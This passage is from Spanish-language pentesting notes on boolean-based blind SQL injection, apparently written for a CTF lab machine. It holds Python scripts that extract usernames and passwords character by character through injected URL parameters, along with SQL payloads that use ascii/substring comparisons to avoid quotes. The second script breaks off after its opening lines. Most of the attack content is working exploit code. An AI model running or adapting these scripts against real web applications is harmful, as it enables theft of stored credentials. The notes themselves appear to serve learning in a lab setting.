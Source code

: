 ```python
			sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1)) from users where id = 1)=%d)" % (position, character) //?id= se puede cambiar a lo que use la página

			p1.status(sqli_url)

			r = requests.get(sqli_url)

			if r.status_code == 200:
				extracted_info += chr(character)
				p2.status(extracted_info)
				break
				
if __name__ == '__main__':

	makeSQLI()
```

### Boolean-based blind SQL Injection

>Filtrar primer caracter de los usernames por ejemplo:

```sql
select substring(username,1,1) --> El primer valor dicta la posición del caracter y el segundo la posición del registro.
```

>En este tipo de sqli se trata de hacer que, por ejemplo, se de el caso de que 'a'='a' para que se muestre un código de estado booleano que diga true representados en 1 (true) y 0 (false).

```sql
select(select substring(username,1,1) from users where id = 1)= 'a';
```

>Una mejor forma de hacerlo para evitar el uso de comillas simples, se debe pasar por ejemplo la "a" a decimal mediante:

```sql
select ascii(substring(username,1,1)) from users where id = 1;
```

>Donde mostrará que "a" = 97 donde podremos aprovechar ese 97 para hacer la query evitando las comillas simples y retornando un 1 (true) ya que 97 es igual a 97.

```sql
select(select ascii(substring(username,1,1)) from users where id = 1)=97;
```

## Script para SQLI Boolean Based

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, sys, time, string

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Ctrl + C
signal.signal(signal,SIGINT, def_handler)

#Variables globales
characters = string.ascii_lowercase
main_url = "http://192.168.1.37/imfadministrator/cms.php?pagename="

def sqli():
```